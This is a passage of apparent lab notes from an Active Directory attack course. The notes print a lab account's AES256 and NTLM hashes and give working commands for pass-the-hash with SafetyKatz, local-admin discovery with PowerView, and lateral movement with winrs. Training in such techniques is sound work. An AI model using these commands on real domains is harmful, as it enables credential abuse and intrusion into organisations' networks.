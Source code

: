 Note:
helpdeskadmin
- AES256: `f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534`
- NTLM: `94b4a7961bb45377f6e7951b0d8630be`

<br/>

On the RDP machine, perform a Over-Pass-the-Hash using `helpdeskadmin` credential:

```
.\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /run:powershell.exe" "exit"
```

<br/>

Then on the new PowerShell session, find local admin access using PowerView:

```
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat
```

```
. C:\AD\Tools\PowerView.ps1
```

```
Find-LocalAdminAccess
```

- No result

Try to check using `Find-PSRemotingLocalAdminAccess.ps1`:

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1; Find-PSRemotingLocalAdminAccess
```

![picture 40](images/ccf65a98ab13843fa48316a671aab7dbe22d9f7a8b507055a4af26c2653bf4ba.png)  

- helpdeskadmin can access `us-helpdesk` and `us-adconnect`

<br/>

Use `winrs` to access `us-adconnect`:

```
winrs -r:us-adconnect cmd.exe
```

![picture 41](images/9e655ed42d2e438190e7dd9bdf1e27943c06037a4a498bc5d684bdb2b4e19cb2.png)  

<br/>

